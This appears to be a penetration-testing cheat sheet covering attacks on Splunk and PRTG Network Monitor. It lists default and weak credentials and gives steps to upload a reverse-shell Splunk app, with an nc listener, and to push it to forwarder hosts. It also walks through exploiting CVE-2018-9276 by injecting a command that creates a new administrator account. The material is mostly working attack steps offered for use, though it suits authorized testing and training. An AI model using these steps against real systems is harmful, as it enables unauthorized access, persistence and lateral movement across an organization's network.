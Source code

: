 # Infrastructure and Network Monitoring Tools

In this section, we will discuss the following technologies:
- Splunk
- PRTG Network Monitor

## Splunk

The Splunk web server runs by default on port 8000. On older versions of Splunk, the default credentials are admin:changeme

The latest version of Splunk sets credentials during the installation process. If the default credentials do not work, it is worth checking for common weak passwords such as admin, Welcome, Welcome1, Password123, etc.

**Code Execution**
````
https://github.com/0xjpuff/reverse_shell_splunk

$ tree splunk_shell/
splunk_shell/
├── bin
└── default
````
If it is Windows, change the IP in run.ps1; if it is Linux, change the IP in rev.py.
````
$ tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
$ mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
````
````
1 - https://<domain>:8000/en-US/manager/search/apps/local
2 - Install app from file
3 - nc -lvp <port>
4 - Upload spl file
````
If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the $SPLUNK_HOME/etc/deployment-apps directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.

## PRTG Network Monitor

PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more.

**Discovery/Footprinting/Enumeration**
````
$ sudo nmap -sV -p- --open -T4 <IP>
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
````
Default Creds -> prtgadmin:prtgadmin

PRTG version 17.3.33.2830 is likely vulnerable to CVE-2018-9276 which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39.
````
$ curl -s http://<IP>:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
````

**Exploitation CVE-2018-9276**
````
1 - Setup > Account Settings > Notifications
2 - Add new notification
3 - Give the notification a name and scroll down and tick the box next to EXECUTE PROGRAM
4 - Under Program File, select Demo exe notification - outfile.ps1 from the drop-down
5 - In the parameter field, enter a command (Example: test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add)
6 - Save
7 - Click the Test button to run our notification and execute the command
````
